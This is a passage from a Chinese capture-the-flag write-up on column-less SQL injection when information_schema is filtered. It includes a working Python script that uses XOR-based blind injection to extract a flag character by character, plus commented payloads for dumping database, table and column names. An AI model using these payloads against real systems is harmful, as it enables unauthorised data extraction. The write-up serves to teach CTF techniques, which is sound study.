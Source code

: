    - 爆破列名：没有办法获取列名--》**无列名注入**

     > **使用条件&方法**
     >
     > 无列名注入主要是适用于已经获取到数据表，但无法查询列的情况下，在大多数 CTF 题目中，information_schema 库被过滤，使用这种方法获取列名。
     >
     > 无列名注入的原理其实很简单，类似于将我们不知道的列名进行取别名操作，在取别名的同时进行数据查询，所以，如果我们查询的字段多于数据表中列的时候，就会出现报错。

     一般情况下的无列名查询可以参考[CTF|mysql之无列名注入](https://zhuanlan.zhihu.com/p/98206699)。常见的都会使用union select，但从前面我们已经可以得知，union被过滤掉，无法使用。

6. 参考其他wp，学到新方法。核心思路：`(select 1,"G")>(select * from f1ag_1s_h3r3_hhhhh)`

   脚本如下：

```python
url = 'http://1001b419-095b-467b-8a4e-63cd0c8440bd.node3.buuoj.cn/'
i = 0
flag = ''
while True:
    i += 1
    # 从可打印字符开始
    begin = 32
    end = 126
    tmp = (begin + end) // 2
    while begin < end:
        print(begin, tmp, end)
        time.sleep(0.1)
        # 爆数据库 give_grandpa_pa_pa_pa
        # payload = "1^(ascii(substr(database(),%d,1))>%d)^1" % (i, tmp)
        # 爆表 f1ag_1s_h3r3_hhhhh,users233333333333333
        # payload = "1^(ascii(substr((select(GROUP_CONCAT(TABLE_NAME))from(sys.x$schema_flattened_keys)where(TABLE_SCHEMA=database())),%d,1))>%d)^1" % (i, tmp)
        # 爆字段
        # payload = "1^(ascii(substr((select(GROUP_CONCAT(COLUMN_NAME))from(information_schema.COLUMNS)where(TABLE_NAME='F1naI1y')),%d,1))>%d)^1" % (i, tmp)
        
        payload = "1^((select * from f1ag_1s_h3r3_hhhhh)>(1,'%s'))^1" % (flag+chr(tmp))
        print(payload)
        data={"id":payload}
        r = requests.post(url,data=data)
        if 'Nu1L' in r.text:
            begin = tmp + 1
        else:
            end = tmp
        tmp = (begin + end) // 2

    flag += chr(tmp-1)
    #flag += chr(tmp)
    print(flag)
    #if begin == 32:
    if begin == 33:    
        break

```

## 总结

- 本题大致思路其实和[极客大挑战 2019FinalSQL]([极客大挑战%202019]FinalSQL.md)一致，都采用异或注入，脚本思路大致相同。
- 本题重点在于积累**无列名注入**的方法和在过滤了information的情况如何获取数据库表名。

## 参考链接

- [CTF|mysql之无列名注入](https://zhuanlan.zhihu.com/p/98206699)